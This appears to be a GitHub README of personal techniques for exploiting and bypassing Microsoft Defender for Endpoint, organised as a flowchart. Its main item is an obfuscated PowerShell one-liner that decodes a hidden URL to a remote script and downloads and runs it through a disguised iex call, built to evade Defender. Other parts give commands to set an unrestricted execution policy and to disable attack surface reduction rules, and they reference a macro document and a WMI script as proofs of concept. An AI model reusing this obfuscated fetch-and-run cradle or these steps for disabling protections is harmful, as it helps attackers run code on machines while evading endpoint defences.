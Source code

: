 # fkxdr-mindmaps for exploiting and bypassing EDR/XDR

![image](https://github.com/user-attachments/assets/a2abcdbb-f9fa-42d6-a61c-6de985be283f)

This is a small place about hosting my personal techniques needed for real-life scenarios, focused on EDR and XDR.
  
```mermaid
flowchart TD
    MDE[ Microsoft Defender for Endpoint ]
    MDE --> MDEENUM[ Enumerate MDE ]
    MDEENUM --> | fkmde.ps1 | MDEVULN[ Vulnerable Configurations ]
    MDEENUM --> |  Windows UI | MDEVULN[ Vulnerable Configurations ]
    MDEVULN --> | officemacro32.docm | MDEASR[ ASR Misconfiguration ]
    MDEVULN --> | wmiprocess.ps1 | MDEASR
    MDEVULN --> MDEEXCLUSION[ Defender Exclusions ]

    MDE --> MDEBYPASS[ Attempt Defender Bypass ]
    MDEBYPASS --> | ps1-obfuscator.ps1 | MDEBYPASS2[ Defender Bypass ]

    MDE --> MDESSCR[ Find disabled Smart Screen Settings ]
    MDESSCR --> | Smart Screen testing URL | MDESSCR2[ Vulnerable Smart Screen ]

    APP[ Microsoft AppLocker ]
```

## Table of Contents
Enumeration of MDE
* [Defender for Endpoint](#Defender-for-Endpoint)
* [ASR Rules](#ASR-Rules)
* [Smart Screen](#Smart-Screen)

## Enumeration of MDE
### Defender for Endpoint

A collection of enumeration procedures.

* ps1-obfuscator and fkmde:
  ```powershell
  powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)"
  ```
* ps. if unable to run a script on the current system, an execution policy has to be set.
  ```
  Set-ExecutionPolicy Unrestricted -Scope CurrentUser
  ```


## ASR Rules

A collection of PoC's and scripts to test ASR rules and implementations.

#### * officemacro32.docm (d4f940ab-401b-4efc-aadc-ad5f3c50688a / 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b)
![image](https://github.com/user-attachments/assets/00216155-88a4-482c-9225-7296380d0ede)

  ps. If Microsoft is blocking the document due an untrusted source, make sure to check the box in properties to trust.

  Enable & disable ASR rules
  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids 92e97fa1-2edf-4476-bdd6-9dd0b4dddc7b

  Add-MpPreference -AttackSurfaceReductionRules_Actions Enabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d4f940ab-401b-4efc-aadc-ad5f3c50688a
  ```

#### * wmiprocess.ps1 (d1e49aac-8f56-4280-b9ba-993a6d77406c )
![image](https://github.com/user-attachments/assets/63abd5b5-50a2-4f25-aac4-69691ccd0f8b)

  Enable & disable ASR rules
  ```
  Add-MpPreference -AttackSurfaceReductionRules_Actions Enable -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Enable Block process creations originating from PSExec and WMI commands
  Add-MpPreference -AttackSurfaceReductionRules_Actions Disabled -AttackSurfaceReductionRules_Ids d1e49aac-8f56-4280-b9ba-993a6d77406c #Disable Block process creations originating from PSExec and WMI commands
  ```
  
## Smart Screen

A collection of smart screen test links.

* Smart Screen Test: https://commandcontrol.smartscreentestratings.com/  
* Smart Screen Test: https://smartscreentestratings2.net  
* Smart Screen Phishing: https://demo.smartscreen.msft.net/phishingdemo.html  
* Smart Screen Malware: https://demo.smartscreen.msft.net/other/malware.html  
* Smart Screen Untrusted: https://demo.smartscreen.msft.net/download/malwaredemo/freevideo.exe  
* Smart Screen Exploit: https://demo.smartscreen.msft.net/other/exploit.html





